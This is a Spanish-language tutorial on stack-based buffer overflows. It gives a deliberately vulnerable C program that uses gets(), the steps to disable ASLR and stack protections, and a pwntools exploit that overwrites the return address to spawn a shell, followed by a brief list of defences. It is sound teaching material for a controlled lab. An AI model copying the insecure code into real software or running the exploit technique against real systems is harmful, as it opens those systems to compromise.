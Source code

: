 # Stack-Based Buffer Overflow

## 1. Introducción
Un **Stack-Based Buffer Overflow** ocurre cuando un programa escribe más datos de los permitidos en un buffer localizado en la pila (stack), sobrescribiendo la dirección de retorno de la función y permitiendo la ejecución de código arbitrario.

En este ejercicio, explotaremos una vulnerabilidad en un programa en C que usa la función insegura `gets()`, permitiendo sobrescribir la dirección de retorno y ejecutar una shell.



## 2. Preparación del Entorno

### **Desactivar Protecciones (Solo para Pruebas en Entorno Controlado)**
Algunas protecciones modernas dificultan la explotación de buffer overflows. Para facilitar la prueba:

  **Desactivar ASLR (Address Space Layout Randomization)**:
   ```bash
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   ```

## 3. Código Vulnerable en C
Guarda el siguiente código como `vulnerable.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void shell() {
    system("/bin/sh"); // Llamada a una shell si logramos redirigir el flujo de ejecución
}

void vulnerable() {
    char buffer[64];
    printf("Introduce tu entrada: ");
    gets(buffer); // Función insegura (puede causar desbordamiento)
    printf("Tu entrada fue: %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}
```

Compila el programa:
```bash
gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c -Wno-implicit-function-declaration
```



## 4. Explotación con Python

### **1. Instalamos pwntools**
```bash
pip install pwntools
```

### **2. Creamos el Exploit en Python**
Guarda este script como `exploit.py`:

```python
from pwn import *

# Dirección de la función shell() en el binario (ajusta según objdump -d vulnerable | grep shell)
shell_addr = p32(0x08049182)  # Ajustar según la compilación

# Construcción del exploit
payload = b"A" * 68  # Relleno hasta la dirección de retorno
payload += shell_addr  # Sobrescribimos la dirección de retorno con la función shell()

# Ejecutar el programa y enviar el payload
p = process("./vulnerable")
p.sendline(payload)
p.interactive()  # Para interactuar con la shell obtenida
```

### **3. Ejecutamos el Exploit**
```bash
python3 exploit.py
```
Si todo sale bien, obtendremos una shell (`/bin/sh`).



## 5. Explicación de la Explotación
1. **El buffer es de 64 bytes**, pero la dirección de retorno está después de 4 bytes adicionales, por eso enviamos 68 (`64 + 4`).  
2. **Sobrescribimos la dirección de retorno con la de `shell()`**.
3. **Al ejecutar el programa con la carga maliciosa**, el flujo de ejecución salta a `shell()`, dándonos acceso a una shell del sistema.



## 6. Protecciones Contra Stack Overflow
1. **Canarios en la Pila**: Detectan corrupción antes de que la función retorne.
2. **ASLR (Address Space Layout Randomization)**: Aleatoriza direcciones de memoria para evitar predecir la dirección del shellcode.
3. **DEP (Data Execution Prevention)**: Bloquea la ejecución de código en la pila.


